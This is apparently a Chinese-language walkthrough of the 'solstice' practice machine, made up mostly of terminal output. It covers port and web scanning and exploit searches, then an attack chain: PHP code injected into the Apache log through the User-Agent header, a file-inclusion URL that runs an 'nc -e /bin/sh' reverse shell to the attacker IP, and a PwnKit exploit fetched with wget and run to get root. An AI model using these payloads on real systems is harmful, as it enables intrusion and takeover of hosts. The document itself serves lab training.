



# solstice
## 信息收集
### 全端口扫描
```
──(aaron㉿aacai)-[~/Desktop/solstice-192.168.146.67]
└─$ sudo nmap -p- 192.168.146.67
[sudo] password for aaron: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-22 15:26 HKT
Nmap scan report for 192.168.146.67
Host is up (0.00024s latency).
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
2121/tcp  open  ccproxy-ftp
3128/tcp  open  squid-http
8593/tcp  open  unknown
54787/tcp open  unknown
62524/tcp open  unknown
MAC Address: 00:0C:29:0D:81:DD (VMware)

Nmap done: 1 IP address (1 host up) scanned in 10.59 seconds

```
### 指定端口扫描
```
└─$ sudo nmap -p21,22,25,80,139,445,2121,3128,8593,54787,62524 -sV -A 192.168.146.67
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-22 16:02 HKT
Nmap scan report for 192.168.146.67
Host is up (0.00027s latency).

PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.146.67:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:a7:37:fd:55:6c:f8:ea:03:f5:10:bc:94:32:07:18 (RSA)
|   256 ab:da:6a:6f:97:3f:b2:70:3e:6c:2b:4b:0c:b7:f6:4c (ECDSA)
|_  256 ae:29:d4:e3:46:a1:b1:52:27:83:8f:8f:b0:c4:36:d1 (ED25519)
25/tcp    open  smtp        Exim smtpd 4.92
| smtp-commands: solstice Hello nmap.scanme.org [192.168.146.50], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp    open  http        Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
2121/tcp  open  ftp         pyftpdlib 1.5.6
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drws------   2 www-data www-data     4096 Jun 18  2020 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.146.67:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
3128/tcp  open  http-proxy  Squid http proxy 4.6
8593/tcp  open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
54787/tcp open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
62524/tcp open  ftp         FreeFloat ftpd 1.00
MAC Address: 00:0C:29:0D:81:DD (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: Host: solstice; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: \x00
|   NetBIOS computer name: SOLSTICE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-07-22T04:03:04-04:00
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
| smb2-time: 
|   date: 2022-07-22T08:03:03
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: SOLSTICE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

TRACEROUTE
HOP RTT     ADDRESS
1   0.27 ms 192.168.146.67

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.92 seconds
```
### web信息收集
#### 80端口
```
┌──(aaron㉿aacai)-[~/Desktop/solstice-192.168.146.67]
└─$ nikto -h 192.168.146.67  
- Nikto v2.1.6

+ Target IP:          192.168.146.67
+ Target Hostname:    192.168.146.67
+ Target Port:        80
+ Start Time:         2022-07-22 16:22:04 (GMT8)

+ Server: Apache/2.4.38 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 128, size: 5a8e9a431c517, mtime: gzip
+ Allowed HTTP Methods: POST, OPTIONS, HEAD, GET 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7915 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2022-07-22 16:22:58 (GMT8) (54 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

└─$ cat dirsearch_res_80.txt| grep -v "403"
Target: http://192.168.146.67/

[16:23:56] Starting: 
[16:24:06] 301 -  314B  - /app  ->  http://192.168.146.67/app/
[16:24:07] 301 -  317B  - /backup  ->  http://192.168.146.67/backup/
[16:24:14] 200 -  296B  - /index.html
[16:24:15] 301 -  321B  - /javascript  ->  http://192.168.146.67/javascript/
目录收集无果

```
#### 8593端口
```
──(aaron㉿aacai)-[~/Desktop/solstice-192.168.146.67]
└─$ nikto -h 192.168.146.67:8593  
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.146.67
+ Target Hostname:    192.168.146.67
+ Target Port:        8593
+ Start Time:         2022-07-22 16:35:29 (GMT8)
---------------------------------------------------------------------------
+ Server: No banner retrieved
+ Retrieved x-powered-by header: PHP/7.3.14-1~deb10u1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Multiple index files found: /index.php, /index.html
+ OSVDB-18114: /reports/rwservlet?server=repserv+report=/tmp/hacker.rdf+destype=cache+desformat=PDF:  Oracle Reports rwservlet report Variable Arbitrary Report Executable Execution
+ ERROR: Error limit (20) reached for host, giving up. Last error: error reading HTTP response
+ Scan terminated:  20 error(s) and 7 item(s) reported on remote host
+ End Time:           2022-07-22 16:35:41 (GMT8) (12 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```


### FTP登录信息收集
#### 21端口
```
└─$ ftp 192.168.146.67 21  
Connected to 192.168.146.67.
220 pyftpdlib 1.5.6 ready.
Name (192.168.146.67:aaron): anonymous
331 Username ok, send password.
Password: 
530 Anonymous access not allowed.
ftp: Login failed
ftp> 
不允许匿名用户登录
```

#### 2121端口
```
└─$ ftp 192.168.146.67 2121
Connected to 192.168.146.67.
220 pyftpdlib 1.5.6 ready.
Name (192.168.146.67:aaron): anonymous
331 Username ok, send password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> get pub
local: pub remote: pub
229 Entering extended passive mode (|||42317|).
550 Is a directory.
ftp> 
无法获取文件
```
### 62524端口漏洞搜索
```
全是基于windows的, 无果
└─$ searchsploit  freefloat                                                         
-------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                              |  Path
-------------------------------------------------------------------------------------------- ---------------------------------
Freefloat FTP Server - 'ALLO' Remote Buffer Overflow                                        | windows/remote/36075.py
Freefloat FTP Server - 'LIST' Remote Buffer Overflow                                        | windows/remote/17519.py
Freefloat FTP Server - 'MKD' Remote Buffer Overflow (Metasploit)                            | windows/remote/17540.rb
Freefloat FTP Server - 'PUT' Remote Buffer Overflow                                         | windows/remote/22351.py
Freefloat FTP Server - 'REST' Remote Buffer Overflow (Metasploit)                           | windows/remote/17548.rb
Freefloat FTP Server - 'USER' Remote Buffer Overflow                                        | windows/remote/23243.py
Freefloat FTP Server - Arbitrary File Upload (Metasploit)                                   | windows/remote/23226.rb
Freefloat FTP Server - Directory Traversal                                                  | windows/remote/35051.txt
Freefloat FTP Server - Remote Buffer Overflow                                               | windows/remote/15689.py
Freefloat FTP Server - Remote Buffer Overflow (DEP Bypass)                                  | windows/remote/17886.py
Freefloat FTP Server - Remote Buffer Overflow (Metasploit)                                  | windows/remote/17498.rb
Freefloat FTP Server 1.0 - 'ABOR' Remote Buffer Overflow                                    | windows/remote/40674.py
Freefloat FTP Server 1.0 - 'ACCL' Remote Buffer Overflow                                    | windows/remote/17550.py
Freefloat FTP Server 1.0 - 'DIR' Remote Buffer Overflow                                     | windows/remote/40681.py
Freefloat FTP Server 1.0 - 'HOST' Remote Buffer Overflow                                    | windows/remote/40673.py
Freefloat FTP Server 1.0 - 'MKD' Remote Buffer Overflow                                     | windows/remote/17539.rb
Freefloat FTP Server 1.0 - 'Raw' Remote Buffer Overflow                                     | windows/remote/24479.py
Freefloat FTP Server 1.0 - 'RENAME' Remote Buffer Overflow                                  | windows/remote/40677.py
Freefloat FTP Server 1.0 - 'REST' / 'PASV' Remote Buffer Overflow                           | windows/remote/17546.py
Freefloat FTP Server 1.0 - 'RMD' Remote Buffer Overflow                                     | windows/remote/40672.py
Freefloat FTP Server 1.0 - 'SITE ZONE' Remote Buffer Overflow                               | windows/remote/40711.py
Freefloat FTP Server 1.0 - 'SIZE' Remote Buffer Overflow                                    | windows/remote/46762.py
Freefloat FTP Server 1.0 - 'STOR' Remote Buffer Overflow                                    | windows/remote/46763.py
Freefloat FTP Server 1.0 - DEP Bypass with ROP                                              | windows/remote/24944.py
-------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
### samba漏洞搜索
```
──(aaron㉿aacai)-[~/Desktop/solstice-192.168.146.67]
└─$ searchsploit samba 3 | grep -v "windows\|2.3\|2.2\|2.0\|1.9" 
-------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                              |  Path
-------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 (OSX) - 'lsa_io_trans_names' Heap Overflow (Metasploit)                        | osx/remote/16875.rb
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                      | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)            | unix/remote/16320.rb
Samba 3.0.21 < 3.0.24 - LSA trans names Heap Overflow (Metasploit)                          | linux/remote/9950.rb
Samba 3.0.24 (Linux) - 'lsa_io_trans_names' Heap Overflow (Metasploit)                      | linux/remote/16859.rb
Samba 3.0.24 (Solaris) - 'lsa_io_trans_names' Heap Overflow (Metasploit)                    | solaris/remote/16329.rb
Samba 3.0.27a - 'send_mailslot()' Remote Buffer Overflow                                    | linux/dos/4732.c
Samba 3.0.29 (Client) - 'receive_smb_raw()' Buffer Overflow (PoC)                           | multiple/dos/5712.pl
Samba 3.0.4 - SWAT Authorisation Buffer Overflow                                            | linux/remote/364.pl
Samba 3.3.12 (Linux x86) - 'chain_reply' Memory Corruption (Metasploit)                     | linux_x86/remote/16860.rb
Samba 3.3.5 - Format String / Security Bypass                                               | linux/remote/33053.txt
Samba 3.4.16/3.5.14/3.6.4 - SetInformationPolicy AuditEventsInfo Heap Overflow (Metasploit) | linux/remote/21850.rb
Samba 3.4.5 - Symlink Directory Traversal                                                   | linux/remote/33599.txt
Samba 3.4.5 - Symlink Directory Traversal (Metasploit)                                      | linux/remote/33598.rb
Samba 3.4.7/3.5.1 - Denial of Service                                                       | linux/dos/12588.txt
Samba 3.5.0 - Remote Code Execution                                                         | linux/remote/42060.py
Samba 3.5.0 < 4.4.14/4.5.10/4.6.4 - 'is_known_pipename()' Arbitrary Module Load (Metasploit | linux/remote/42084.rb
Samba 3.5.11/3.6.3 - Remote Code Execution                                                  | linux/remote/37834.py
Samba 3.5.22/3.6.17/4.0.8 - nttrans Reply Integer Overflow                                  | linux/dos/27778.txt
Samba < 3.0.20 - Remote Heap Overflow                                                       | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                                       | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                               | linux_x86/dos/36741.py
Sambar Server 5.1 - Script Source Disclosure                                                | cgi/remote/21390.txt
-------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
### exim漏洞信息收集
```
└─$ searchsploit exim 4.
-------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                              |  Path
-------------------------------------------------------------------------------------------- ---------------------------------
Exim 4 (Debian 8 / Ubuntu 16.04) - Spool Privilege Escalation                               | linux/local/40054.c
Exim 4.41 - 'dns_build_reverse' Local Buffer Overflow                                       | linux/local/756.c
Exim 4.41 - 'dns_build_reverse' Local Read Emails                                           | linux/local/1009.c
Exim 4.42 - Local Privilege Escalation                                                      | linux/local/796.sh
Exim 4.43 - 'auth_spa_server()' Remote                                                      | linux/remote/812.c
Exim 4.63 - Remote Command Execution                                                        | linux/remote/15725.pl
Exim 4.84-3 - Local Privilege Escalation                                                    | linux/local/39535.sh
Exim 4.87 - 4.91 - Local Privilege Escalation                                               | linux/local/46996.sh
Exim 4.87 / 4.91 - Local Privilege Escalation (Metasploit)                                  | linux/local/47307.rb
Exim 4.87 < 4.91 - (Local / Remote) Command Execution                                       | linux/remote/46974.txt
Exim 4.89 - 'BDAT' Denial of Service                                                        | multiple/dos/43184.txt
exim 4.90 - Remote Code Execution                                                           | linux/remote/45671.py
Exim < 4.86.2 - Local Privilege Escalation                                                  | linux/local/39549.txt
Exim < 4.90.1 - 'base64d' Remote Code Execution                                             | linux/remote/44571.py
Exim < 4.90.1 - 'base64d' Remote Code Execution                                             | linux/remote/44571.py
Exim ESMTP 4.80 - glibc gethostbyname Denial of Service                                     | linux/dos/35951.py
Exim Internet Mailer 3.35/3.36/4.10 - Format String                                         | linux/local/22066.c
Exim4 < 4.69 - string_format Function Heap Buffer Overflow (Metasploit)                     | linux/remote/16925.rb
PHPMailer < 5.2.20 with Exim MTA - Remote Code Execution                                    | php/webapps/42221.py
-------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
### squid漏洞信息收集
```
searchsploit squid          
----------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                 |  Path
----------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
MySQL Squid Access Report 2.1.4 - HTML Injection                                                                                               | php/webapps/20055.txt
MySQL Squid Access Report 2.1.4 - SQL Injection / Cross-Site Scripting                                                                         | php/webapps/44483.txt
National Science Foundation Squid Proxy 2.3 - Internet Access Control Bypass                                                                   | linux/remote/24105.txt
National Science Foundation Squid Web Proxy 1.0/1.1/2.1 - Authentication Failure                                                               | linux/remote/19567.txt
PageSquid CMS 0.3 Beta - 'index.php' SQL Injection                                                                                             | php/webapps/5899.txt
Squid - 'httpMakeVaryMark()' Remote Denial of Service                                                                                          | linux/dos/38365.txt
Squid - NTLM (Authenticated) Overflow (Metasploit)                                                                                             | linux/remote/16847.rb
Squid 2.0-4 - Cache FTP Proxy URL Buffer Overflow                                                                                              | unix/remote/21297.c
Squid 2.4.1 - Remote Buffer Overflow                                                                                                           | linux/remote/347.c
Squid 2.5.x/3.x - NTLM Buffer Overflow (Metasploit)                                                                                            | multiple/remote/9951.rb
Squid 3.3.5 - Denial of Service (PoC)                                                                                                          | linux/dos/26886.pl
Squid < 3.1 5 - HTTP Version Number Parsing Denial of Service                                                                                  | multiple/dos/8021.pl
Squid Analysis Report Generator 2.3.10 - Remote Code Execution                                                                                 | php/webapps/42993.txt
Squid Proxy 2.4/2.5 - NULL URL Character Unauthorized Access                                                                                   | linux/remote/23777.txt
Squid Proxy 2.5/2.6 - FTP URI Remote Denial of Service                                                                                         | linux/dos/29473.txt
Squid Web Proxy 2.2 - 'cachemgr.cgi' Unauthorized Connection                                                                                   | cgi/remote/20465.sh
Squid Web Proxy 2.3 - Reverse Proxy                                                                                                            | linux/remote/21017.txt
SquidGuard 1.4 - Long URL Handling Remote Denial of Service                                                                                    | xml/dos/37685.txt
SquidGuard 1.x - NULL URL Character Unauthorized Access                                                                                        | linux/remote/23848.txt
----------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
无果
```
### web页面发现
文件包含漏洞

>由于目标服务器是apache, 所以查看一下日志文件
> 发现能给出PPSESSID和日志信息, 那么就用get方式把请求方式后面加上个cmd

```
└─$ curl 192.168.146.67 -A "<?php system(\$_GET['cmd'])?>"                                  
 <head>
Currently configuring the database, try later.
 <style type ="text/css" >
   .footer{ 
       position: fixed;     
       text-align: center;    
       bottom: 0px; 
       width: 100%;
   }  
</style>
</head>
<body>
    <div class="footer">Proudly powered by phpIPAM 1.4</div>
</body>
                                                                                                                                                                                 
┌──(aaron㉿aacai)-[~/Desktop/solstice-192.168.146.67]
└─$ 

```
#### 使用get方式去拼接到log后面访问cmd反弹shell
```
nc%20-e%20%2Fbin%2Fsh%20192.168.146.50%204444
http://192.168.146.67:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=nc%20-e%20%2Fbin%2Fsh%20192.168.146.50%204444
接收到反弹shell
└─$ nc -nvlp 4444             
listening on [any] 4444 ...
connect to [192.168.146.50] from (UNKNOWN) [192.168.146.67] 59986
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### 提权
#### linpeas.sh获取信息
```
www-data@solstice:/home/miguel$ cd /tmp
cd /tmp
www-data@solstice:/tmp$ ls
ls
systemd-private-8c54c9e0123a440c8eac0baf29dae5f0-apache2.service-ShAfi5
systemd-private-8c54c9e0123a440c8eac0baf29dae5f0-systemd-timesyncd.service-ukEb7i
www-data@solstice:/tmp$ wget http://192.168.146.50/linpeas.sh
wget http://192.168.146.50/linpeas.sh
--2022-07-22 05:22:21--  http://192.168.146.50/linpeas.sh
Connecting to 192.168.146.50:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 777005 (759K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 758.79K  --.-KB/s    in 0.003s  

2022-07-22 05:22:21 (229 MB/s) - ‘linpeas.sh’ saved [777005/777005]

www-data@solstice:/tmp$ chmod 755 linpeas.sh
chmod 755 linpeas.sh
www-data@solstice:/tmp$ ./linpeas.sh
./linpeas.sh

╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034

# m h  dom mon dow   command
@reboot /usr/bin/python -m pyftpdlib -p 2121 -d /var/tmp/ftp/
@reboot /usr/bin/php -S 0.0.0.0:54787 -t /var/tmp/webserver_2/
@reboot /usr/bin/php -S 0.0.0.0:8593 -t /var/tmp/webserver/
@reboot /usr/bin/python /var/tmp/fake_ftp/script.py

You can write SUID file: /var/log/exim4/mainlog.1
You can write SUID file: /var/log/apache2/error.log.1
You can write SUID file: /var/log/apache2/access.log.1
You can write SUID file: /var/log/apache2/other_vhosts_access.log
You can write SUID file: /var/log/apache2/error.log.2.gz
You can write SUID file: /var/log/apache2/access.log.2.gz
```
在这里可以使用CVE-2021-4034提权
在本地下载好CVE-2021-4034的包, 从靶机上下载后执行
```
www-data@solstice:/tmp$ wget http://192.168.146.50/CVE-2021-4034.zip
wget http://192.168.146.50/CVE-2021-4034.zip
--2022-07-22 05:37:13--  http://192.168.146.50/CVE-2021-4034.zip
Connecting to 192.168.146.50:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 54238 (53K) [application/zip]
Saving to: ‘CVE-2021-4034.zip’

CVE-2021-4034.zip   100%[===================>]  52.97K  --.-KB/s    in 0s      

2022-07-22 05:37:13 (241 MB/s) - ‘CVE-2021-4034.zip’ saved [54238/54238]

www-data@solstice:/tmp$ ls
ls
cve-2021-4034
CVE-2021-4034.zip
dry-run-cve-2021-4034
linpeas.sh
systemd-private-8c54c9e0123a440c8eac0baf29dae5f0-apache2.service-ShAfi5
systemd-private-8c54c9e0123a440c8eac0baf29dae5f0-systemd-timesyncd.service-ukEb7i
www-data@solstice:/tmp$ unzip CVE-2021-4034.zip
www-data@solstice:/tmp$ ls
ls
cve-2021-4034
CVE-2021-4034
CVE-2021-4034.zip
dry-run-cve-2021-4034
linpeas.sh
systemd-private-8c54c9e0123a440c8eac0baf29dae5f0-apache2.service-ShAfi5
systemd-private-8c54c9e0123a440c8eac0baf29dae5f0-systemd-timesyncd.service-ukEb7i
www-data@solstice:/tmp$ cd CVE-2021-4034
cd CVE-2021-4034
www-data@solstice:/tmp/CVE-2021-4034$ ls
ls
cve-2021-4034.c   dry-run  Makefile  README.md
cve-2021-4034.sh  LICENSE  pwnkit.c
www-data@solstice:/tmp/CVE-2021-4034$ make
make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
www-data@solstice:/tmp/CVE-2021-4034$ echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
< "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
www-data@solstice:/tmp/CVE-2021-4034$ mkdir -p GCONV_PATH=.
mkdir -p GCONV_PATH=.
www-data@solstice:/tmp/CVE-2021-4034$ mkdir -p GCONV_PATH=.
mkdir -p GCONV_PATH=.
www-data@solstice:/tmp/CVE-2021-4034$ cp /usr/bin/true GCONV_PATH=./pwnkit.so:.
<021-4034$ cp /usr/bin/true GCONV_PATH=./pwnkit.so:.
www-data@solstice:/tmp/CVE-2021-4034$ ./cve-2021-4034
./cve-2021-4034
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:0d:81:dd brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.67/24 brd 192.168.146.255 scope global dynamic ens33
       valid_lft 59507sec preferred_lft 59507sec
    inet6 fe80::20c:29ff:fe0d:81dd/64 scope link 
       valid_lft forever preferred_lft forever
# cd  
cd 
# ls
ls
'GCONV_PATH=.'	 README.md	   cve-2021-4034.sh   pwnkit.c
 LICENSE	 cve-2021-4034	   dry-run	      pwnkit.so
 Makefile	 cve-2021-4034.c   gconv-modules
# cd /root
cd /root
# ls
ls
ftp  root.txt
# cat root.txt
cat root.txt

```


